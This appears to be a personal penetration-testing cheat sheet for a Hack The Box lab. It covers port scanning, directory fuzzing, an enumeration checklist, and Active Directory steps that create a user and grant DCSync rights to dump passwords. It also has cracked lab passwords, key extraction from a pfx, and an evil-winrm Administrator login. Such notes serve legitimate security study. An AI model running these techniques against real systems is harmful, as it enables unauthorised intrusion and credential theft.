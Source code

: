 ## Basic commands

- Disable iptable: 
```
sudo iptables -F
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT

reverse:
/DROP

sudo systemctl restart networking.service
```

```
# Extract VPN IP - $attack
attack=$(ip a show dev tun1 | egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}')

# Config TMUX
tmux setenv TARGET $TARGET && export TARGET=$TARGET
tmux setenv DOMAIN $DOMAIN && export DOMAIN=$DOMAIN
tmux setenv attack $attack && export attack=$attack

# Scan open ports
alias rustscan='docker run -it --rm --name rustscan rustscan/rustscan:2.1.1'

TCPports=$(sudo nmap -Pn -p- -T4 $TARGET -oA nmap/TCPports -v | egrep "^[0-9]{2,5}" | sed -E "s#/.*##g" | tr "\n" "," | sed 's/.$//') && echo $TCPports

TCPports=$(rustscan -a $TARGET -r 1-65535 > nmap/TCPports.txt | egrep  "^Open.*$" | sed -e 's/\x1b\[[0-9;]*m//g' | sed -e 's/^Open.*://g;s/\r$//g;s/\[m//g' | tr "\n" "," | sed 's/,$//' ) && echo $TCPports

UDPports=$(sudo nmap -T5 -Pn -sU $TARGET -oA nmap/UDPports -v | egrep "^[0-9]{2,5}" | sed -E "s#/.*##g" | tr "\n" "," | sed 's/.$//') && echo $UDPports



# Scan services of open ports
sudo nmap -Pn -p$TCPports -sS -sV -sC -PA $TARGET -oA nmap/Tserv
sudo nmap -Pn -p$UDPports -sS -sV -sC -sU $TARGET -oA nmap/Userv
-PA: TCP ACK ping

# Basic directory fuzzyng
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x eXt,eXt,eXt -k -o gobuster.txt
png,jpg,config,html,asp,aspx,php,php5,xml,htm,exe

# Modify hosts file
sudo sed -i "/$TARGET      $DOMAIN/d" /etc/hosts
echo "$TARGET      $DOMAIN" | sudo tee -a /etc/hosts
```

[] Mount points
[] SMB
[] DNS
[] ftp
[] http enum
    [] folders 
    [] files -x txt,php,html
[] run as admin
[] cron jobs
[] SQL injection
[] Windows suggestor
[] Upload to target
    [] linpeas
    [] pspy

AD
    [] domain name
    [] find users rpcclient -U "" -N $TARGET
    [] kerberos pre authentication disabled (https://github.com/ropnop/kerbrute/releases/tag/v1.0.3 + getPNusers.py (impatck))
    [] net user /domain
    [] net user username
    [] write privileges writeDACL (Bloodhound/sharphound)
        [] create user + add user to group with writedacl + give dsync privilege + dump passwords
        net user USERNAME PASSWORD /add /domain
        net group "GROUP NAME" /add USERNAME
        pass + cred + Add-ObjectACL -PrincipalIdentity USER -Credential -Rights DCSync

How many ports?

Versions?

Paths of URL?

Known CVE

zip:supremelegacy  

commonName=dc01.timelapse.htb
DC=timelapse,DC=htb


pfx
thuglegacy

Extract Certifcate + private key
openssl pkcs12 -in datei.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in datei.pfx -nokeys -out cert.pem

'evil-winrm -i <IP> -k file.key -c file.crt -S -r timelapse'
evil-winrm -i $TARGET -k legacyy_dev_auth.pfx -u 'Administrator' -p 'thuglegacy'

